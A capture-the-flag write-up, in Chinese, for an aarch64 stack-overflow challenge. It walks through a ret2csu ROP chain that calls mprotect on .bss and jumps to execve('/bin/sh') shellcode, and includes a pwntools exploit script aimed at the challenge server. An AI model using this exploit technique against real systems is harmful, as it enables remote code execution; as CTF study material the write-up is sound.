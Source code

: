 64位aarch

![image.png](https://i.loli.net/2020/11/17/CBgKh4AGJ59Vot8.png)

![image.png](https://i.loli.net/2020/11/17/EeMcJVi9CYQvnKS.png)

程序的主干读取了 512 个字符到一个全局变量上，而在 `sub_4007F0()` 中，又读取了 512 个字节到栈上，需要注意的是这里直接从 **`frame pointer + 0x10`** 开始读取，因此即使开了 canary 保护也无所谓。

理一下思路，可以直接 rop，但我们不知道远程的 libc 版本，同时也发现程序中有调用 `mprotect` 的代码段

![image.png](https://i.loli.net/2020/11/17/DWncAYJT8ypmblN.png)

但这段代码把 `mprotect` 的权限位设成了 0，没有可执行权限，这就需要我们通过 rop 控制 `mprotect` 设置如 bss 段等的权限为可写可执行

因此可以有如下思路：

1. 第一次输入 name 时，在 bss 段写上 shellcode
2. 通过 rop 调用 mprotect 改变 bss 的权限
3. 返回到 bss 上的 shellcode

`mprotect` 需要控制三个参数，可以考虑使用 [ret2csu](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/medium_rop/#ret2csu) 这种方法，可以找到如下的 gadgets 来控制 `x0, x1, x2` 寄存器

![image.png](https://i.loli.net/2020/11/17/7eDTVOstw8kmMCX.png)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import sys
context.binary = "./pwn"
context.log_level = "debug"

if sys.argv[1] == "l":
    io = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
elif sys.argv[1] == "d":
    io = process(["qemu-aarch64", "-g", "1234", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
else:
    io = remote("106.75.126.171", 33865)

def csu_rop(call, x0, x1, x2):
    payload = flat(0x4008CC, '00000000', 0x4008ac, 0, 1, call)
    payload += flat(x2, x1, x0)
    payload += '22222222'
    return payload


if __name__ == "__main__":
    elf = ELF("./pwn", checksec = False)
    padding = asm('mov x0, x0')

    sc = asm(shellcraft.execve("/bin/sh"))
    #  print disasm(padding * 0x10 + sc)
    io.sendafter("Name:", padding * 0x10 + sc)
    sleep(0.01)

    #  io.send(cyclic(length = 500, n = 8))
    #  rop = flat()
    payload = flat(cyclic(72), csu_rop(elf.got['read'], 0, elf.got['__gmon_start__'], 8))
    payload += flat(0x400824)
    io.send(payload)
    sleep(0.01)
    io.send(flat(elf.plt['mprotect']))
    sleep(0.01)
```